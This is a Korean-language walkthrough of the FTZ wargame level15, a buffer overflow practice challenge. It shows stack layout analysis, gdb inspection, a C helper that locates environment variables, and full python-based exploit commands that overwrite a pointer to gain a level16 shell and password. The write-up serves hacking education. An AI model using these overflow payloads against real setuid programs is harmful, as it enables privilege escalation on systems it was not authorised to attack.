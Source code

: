 자 확인하면 `buf`에서 `check` 변수까지의 거리는 40byte 이다. 

`|char buf[20] (20byte) |DUMMY (20byte) |int *check (4byte) |int crap (4byte) |DUMMY (8byte) | SFT | RET | `

위와 같은 형태의 스택이 구성되는 것을 볼 수 있다. level14와 같은 스택이다.
여기서 다른점은 바로 `check` 변수가 포인터형이라는 것이다. 저 4byte에는 참조되는 주소 값이 존재하고 해당 주소 값에는 정수형 데이터가 존재하는 것이므로.... 

문제의 핵심은 `0xdeadbeef`라는 값을 `check` 가 참조하는 주소에 존재하도록 해야 하는 것이다.
그렇다면 `0xdeadbeef` 라는 값을 어디서 가져오거나 입력해서 넣고 그 주소를 찾아야한다. 그런데 우습게도 저 값은 이미 저장되어있다.

```sh
0x080484b0 <main+32>:	cmpl   $0xdeadbeef,(%eax)
```

디버깅을 통해 위와 같이 `main+32` 위치를 보면 비교문으로 `0xdeadbeef` 값이 존재하는 것을 알 수 있다.

```sh
(gdb) x/4x 0x80484b0
0x80484b0 <main+32>:	0xbeef3881	0x2575dead	0x6808ec83	0x00000c18
```

위와 같이 `cmpl` 명령어의 값을 확인하면 `0x80484b2` 만큼에 `0xdeadbeef` 가 존재하는 것을 알 수 있다.

그럼 이제 입력 값을 더미 값까지 계산하여 40byte 만큼 입력 후, `check` 변수의 값에 `0xdeadbeef`가 있는 주소 값을 넣어주면 될 것이다.

```sh
[level15@ftz level15]$ (python -c 'print "A"*40+"\xb2\x84\x04\x08"'; cat) | ./attackme
id
uid=3096(level16) gid=3095(level15) groups=3095(level15)
my-pass
Level16 Password is "about to cause mass"
```

자 이번엔 끝이아니다. 환경변수를 이용하는 방법을 이용해 쉘을 획득해본다.

위에서는 이미 `attackme` 안에 존재하는 `0xdeadbeef` 값을 이용했다면 이번엔 직접 값을 환경변수에 올려 해당 환경변수 값의 주소를 참조하도록 하면 된다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv)
{
        char *ptr;
        ptr=getenv(argv[1]);
        ptr+=(strlen(argv[0]) - strlen(argv[2]))*2;
        printf("%s = %p\n",argv[1],ptr);
}

```

먼저 환경변수의 주소를 찾는 코드이다. 책에 나와있는데, 기존에 사용하던 방식보다 정확한거 같긴하다.
다음은 실제 공격이다.

```sh
[level15@ftz tmp]$ export DEADBEEF=`python -c 'print "\xef\xbe\xad\xde"'`
[level15@ftz tmp]$ ./env DEADBEEF /home/level15/attackme
DEADBEEF = 0xbffffef1
[level15@ftz tmp]$ (python -c 'print "A"*40+"\xf1\xfe\xff\xbf"'; cat)| /home/level15/attackme
id
uid=3096(level16) gid=3095(level15) groups=3095(level15)
my-pass

Level16 Password is "about to cause mass".
```
